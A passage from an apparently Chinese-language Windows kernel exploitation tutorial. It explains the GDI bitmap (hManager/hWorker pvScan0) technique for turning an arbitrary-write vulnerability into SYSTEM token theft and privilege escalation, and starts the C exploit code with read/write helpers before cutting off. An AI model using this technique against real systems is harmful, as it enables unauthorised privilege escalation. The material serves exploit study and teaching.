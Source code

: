 总结一下我们应该要做的事

> 1. 创建两个 bitmap，分别为 hManager 和 hWorker
> 2. 通过任意地址写漏洞改写 hManager 的 pvScan0 的值为 hWorker 的 pvScan0 的地址
> 3. 结合 GetBitmapBits 和 SetBitmapBits，利用 hManager 和 hWorker 读取 system 的 token
> 4. 把 system 的 token 赋予我们的当前进程
> 5. 验证提权

这里补充一下两个小知识

第一个是 ntoskrnl.exe 中有个叫 PsInitialSystemProcess 的全局变量（指针），其指向 system 进程的 eprocess

![alt 10](images/bitmap/10.jpg)

第二个是内核在不同的环境下有不同的名字

![alt 11](images/bitmap/11.jpg)

到现在应该把每一个点都说清楚了，接下来贴出任意地址写漏洞的 bitmap 利用方法 （之前是改写 [HalDispatchTable+0x4] 来执行 shellcode）

```c
#include "stdafx.h"

#include <windows.h>
#include <Psapi.h>

TCHAR driverName[1024];

typedef struct _payload {
	PULONG_PTR what;
	PULONG_PTR where;
} Payload, *PPayload;

VOID readOOB(HBITMAP hManager, HBITMAP hWorker, DWORD32 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite); // set 写的是 hWorker 的 pvScan0 的值
											   // 通过控制 hWorker 的 pvScan0 的值来决定对哪块地址进行读写
	GetBitmapBits(hWorker, len, whatWrite);
}

VOID writeOOB(HBITMAP hManager, HBITMAP hWorker, DWORD32 whereWrite, LPVOID whatWrite, int len)
{
	SetBitmapBits(hManager, len, &whereWrite);
	SetBitmapBits(hWorker, len, &whatWrite);
}

DWORD32 getpvScan0Address(HBITMAP handle) {
	printf("	handle value: 0x%p\n",(DWORD32) handle);

	DWORD32 tebAddr = (DWORD32)NtCurrentTeb();
	printf("	tebAddr: 0x%p\n", tebAddr);
```
